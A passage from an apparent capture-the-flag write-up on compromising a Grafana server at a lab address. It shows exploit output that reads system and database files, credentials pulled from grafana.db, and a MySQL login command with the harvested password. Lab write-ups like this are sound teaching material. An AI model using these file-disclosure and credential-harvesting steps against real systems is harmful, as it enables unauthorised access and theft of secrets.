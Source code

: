 ```
[i] File "/etc/passwd" found in server.
[*] File saved in "./http_10_10_11_183_3000/passwd".
                                                                                                                                                            
[i] File "/var/lib/grafana/grafana.db" found in server.
[*] File saved in "./http_10_10_11_183_3000/grafana.db".
                                                                                                                                                            
[i] File "/proc/self/cmdline" found in server.
[*] File saved in "./http_10_10_11_183_3000/cmdline".
                                                                                                                                                            
? Do you want to try to extract the passwords from the data source?  Yes

[i] Secret Key: SW2YcwTIb9zpOOhoPsMm                                                                                                                        
                                                                                                                                                            
[*] Bye Bye!

```

After a successful attempt of exploit, I was given a `secret key`, and there were also a couple of file in my directory too.

Looking inside the files that were dumped by the exploit, I found a `grafana.ini` file I found the credentials for `admin` user.

![amb-5](https://user-images.githubusercontent.com/87711310/218239670-f6f3b971-4dcf-4c6f-ac53-40ed1ea4c13e.png)

Then, I looked at `grafana.db` to look if there's any other useful information. I used a tool called `DB browser for SQLite` and can be download by using the following command.

```
sudo apt-get install sqlitebrowser
```

And using the following command, you can use the tool

```
sqlitebrowser grafana.db
```

fter Loading `grafana.db` into the DB browser there is a table called `data_source` where we can find the credentials for the MySQL database login.

![amb-6](https://user-images.githubusercontent.com/87711310/218240092-3269d477-5683-4d48-af66-ce62de3b6c54.png)

The credentials were:
```
grafana:dontStandSoCloseToMe63221!
```

Now that there was a MySQL database that is hosted on port `3306`, I decided to log into the database.

```
mysql -u grafana -p'dontStandSoCloseToMe63221!' -h 10.10.11.183 -P 3306
```

After logging into the database, I enumerated the database to find something juicy. There was an interesting database called `whackywidget` and inside that , there was a table called `users` which contained a `Base64` encoded password for the user `Developer` which was hinted at the start of the challenge on the web-page at port `80`.
